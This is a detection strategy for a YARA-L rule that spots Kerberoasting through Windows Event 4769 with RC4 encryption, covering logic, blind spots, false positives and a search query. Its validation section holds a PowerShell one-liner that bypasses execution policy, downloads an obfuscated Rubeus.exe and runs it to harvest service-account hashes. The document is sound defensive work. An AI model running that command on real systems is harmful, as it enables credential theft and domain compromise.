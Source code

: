 # Detection Name

kerberoasting_abuse.yaral

# Goal
Detect attempts by a threat actor to enumerate SPN's and harvest weak passwords from service accounts via kerberoasting.

# Categorization
These attempts are categorized as [Credential Access / Steal or Forge Kerberos Tickets / Kerberoasting](https://attack.mitre.org/techniques/T1558/003/).

# Detection Functionality
The detection will work as follows:

* Record Windows Event logs
* Look for Windows EventID 4769
* Identify where the Encryption Type is 0x17
* Suppress known-good service accounts
  * Accounts ending with $
  * Known source users that run tools that enumerate SPN's
* Fire alert when the above conditions are met

# Blind Spots and Assumptions

This strategy relies on the following assumptions: 
* Windows Event Logs are logging properly without missing telemetry
* Logs are flowing to the SIEM in a reasonable timeframe
* SIEM is parsing the fields properly to map the detection logic

A blind spot will occur if any of the assumptions are violated. For instance, the following would not trip the alert: 
* Other Encryption Types (such as 0x12) being hit instead of 0x17 (RC4)
* SPN's are cached and the alert doesn't fire due to cached responses

# False Positives
There are several instances where false positives for this ADS could occur:

* Users explicitly performing SPN enumeration as part of SQL jobs
* Automated internal red-team testing

Most false positives can be tracked back to DBA's running scripts that enumerate SPN's and red team activity.

# Validation
Validation can occur by utilize Rubeus.exe to enumerate SPN's and harvest weak RC4 hashes.
```
%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Set-ExecutionPolicy Bypass -scope Process -Force; %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri "https://github.com/Flangvik/ObfuscatedSharpCollection/raw/main/NetFramework_4.7_Any/Rubeus.exe._obf.exe" -OutFile "C:\ProgramData\Rubeus.exe"; C:\Windows\System32\cmd.exe /C C:\ProgramData\Rubeus.exe kerberoast
```
# Relevance
Although many environments no longer have weak RC4 hashes to easily get roasted, it is still a good detection to have to cover this attack vector. It is one of the easiest ways to compromise an elevated privileged account and allow an attacker to pivot to domain compromise.

# Priority
If this detection can be tuned properly, the severity should be a Critical with a 100 risk score.

# Search Example
This is a base UDM search to start with, finer tuning is required to move this into a detection and hone in the proper encryption types.
```
metadata.vendor_name = "Microsoft" AND metadata.product_event_type = "4769" AND principal.hostname = "win-dc.hack.domain" 
(target.resource.name = "0x40800000" OR target.resource.name = "0x40810000")
(target.resource.resource_subtype = "0x12" OR target.resource.resource_subtype = "0x17")
```